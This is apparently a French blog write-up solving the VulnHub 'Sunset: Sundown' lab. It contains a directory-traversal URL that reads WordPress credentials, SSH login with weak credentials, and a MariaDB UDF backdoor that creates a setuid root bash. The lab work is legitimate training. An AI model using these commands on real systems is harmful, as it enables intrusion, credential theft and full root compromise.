 ```yaml
---
title: "Solution du CTF Sunset: Sundown de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [Sundown](https://vulnhub.com/entry/sunset-sundown,530/) est l'avant-dernier de la série Sunset au moment de ces lignes. Il s'agit d'un boot2root disponible sur _VulnHub_.

On peut lancer un scan `Nmap` avec la commande suivante ce qui permet d'avoir un listing de vulnérabilités liées aux versions logicielles détectées ainsi que plus d'informations sur certaines applications.

```bash
sudo nmap -p- -sCV -T5 --script vuln 192.168.56.167
```

Ici on obtient la version du Wordpress présent ainsi que les noms d'utilisateur (uniquement `admin` ici).

```
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-json: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.4.2
|   /feed/: Wordpress version: 5.4.2
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-wordpress-users: 
| Username found: admin
```

On pourrait lancer `wpscan` pour énumérer les plugins installés, mais un coup d'œil au code source permet parfois de se faire une idée rapide :

```html
<script type="text/javascript">
	var SpritzSettings = {
		clientId		: "",
		redirectUri		: "http://192.168.56.167/wp-content/plugins/wp-with-spritz/wp.spritz.login.success.html",
		};
```

Sur _exploit-db_ on trouve cet advisory pour une faille concernant le plugin :

[WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/44544)

Malgré le titre de la page, il ne s'agit pas d'une inclusion, mais juste d'un directory traversal. C'est suffisant pour faire afficher le contenu du fichier de configuration de Wordpress avec cette URL :

```
http://192.168.56.167/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php
```

On y trouve des identifiants de base de données. Le MySQL n'étant pas exposé, on garde ça sous le bras et on continue l'exploration.

```php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'VjFSQ2IyRnNUak5pZWpCTENnPT0K' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Un utilisateur nommé `carlos` est présent sur le système.

```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
```

On peut se connecter sur le serveur via SSH avec les identifiants `carlos` / `carlos` et obtenir le premier flag.

```console
carlos@sundown:~$ cat local.txt 
28f84888f6bd690e321cba14659b32f2
```

Dans la liste des processus je remarque que mysql tourne avec le compte root :

```
root       330  0.0  0.0   2388   760 ?        Ss   15:27   0:00 /bin/sh -c /usr/sbin/mysqld
root       332  6.6 10.5 1275980 106892 ?      Sl   15:27   2:28 /usr/sbin/mysqld
```

On peut procéder à une escalade de privilèges via un plugin UDF comme je l'ai fait sur le CTF [Raven 2]({% link _posts/2023-04-02-Solution-du-CTF-Raven-2-de-VulnHub.md %}) :

```console
carlos@sundown:/etc$ mysql -u root -pVjFSQ2IyRnNUak5pZWpCTENnPT0K
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 130856
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> select @@plugin_dir;
+---------------------------------------------+
| @@plugin_dir                                |
+---------------------------------------------+
| /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------------------------------------+
1 row in set (0.000 sec)

MariaDB [(none)]> select binary 0x7f454c460201010--- snip ---01000000000000000000000000000000 into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/udfbackdoor.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> create function sys_exec returns int soname 'udfbackdoor.so';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> select * from mysql.func where name='sys_exec';
+----------+-----+----------------+----------+
| name     | ret | dl             | type     |
+----------+-----+----------------+----------+
| sys_exec |   2 | udfbackdoor.so | function |
+----------+-----+----------------+----------+
1 row in set (0.000 sec)

MariaDB [(none)]> select sys_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash');
+----------------------------------------------------------+
| sys_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash') |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.010 sec)
```

On retrouve alors un shell setuid root dans `/tmp` :

```console
carlos@sundown:/tmp$ ls -al bash
-rwsr-s--x 1 root root 1168776 Apr  9 16:08 bash
carlos@sundown:/tmp$ ./bash -p
bash-5.0# id
uid=1000(carlos) gid=1000(carlos) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(carlos)
bash-5.0# cd /root
bash-5.0# ls
proof.txt
bash-5.0# cat proof.txt 
                              _____,,,\//,,\\,/,
                             /-- --- --- -----
                            ///--- --- -- - ----
                           o////- ---- --- --
                           !!//o/---  -- --
                         o*) !///,~,,\\,\/,,/,//,,
                           o!*!o'(\          /\
                         | ! o ",) \/\  /\  /  \/\
                        o  !o! !!|    \/  \/     /
                       ( * (  o!'; |\   \       /
                        o o ! * !` | \  /       \
                       o  |  o 'o| | :  \       /
                        *  o !*!': |o|  /      /
                            (o''| `| : /      /
                            ! *|'`  \|/       \\
                           ' !o!':\  \\        \
                            ( ('|  \  `._______/
////\\\,,\///,,,,\,/oO._*  o !*!'`  `.________/
  ---- -- ------- - -oO*OoOo (o''|           /
    --------  ------ 'oO*OoO!*|'o!!          \
-------  -- - ---- --* oO*OoO *!'| '         /
 ---  -   -----  ---- - oO*OoO!!':o!'       /
 - -  -----  -  --  - *--oO*OoOo!`         /
   \\\\\,,,\\,//////,\,,\\\/,,,\,,ejm/AMC

510252fabb4b7e7dddd7373b7b3da3e8

Thanks for playing - Felipe Winsnes (@whitecr0wz)
```

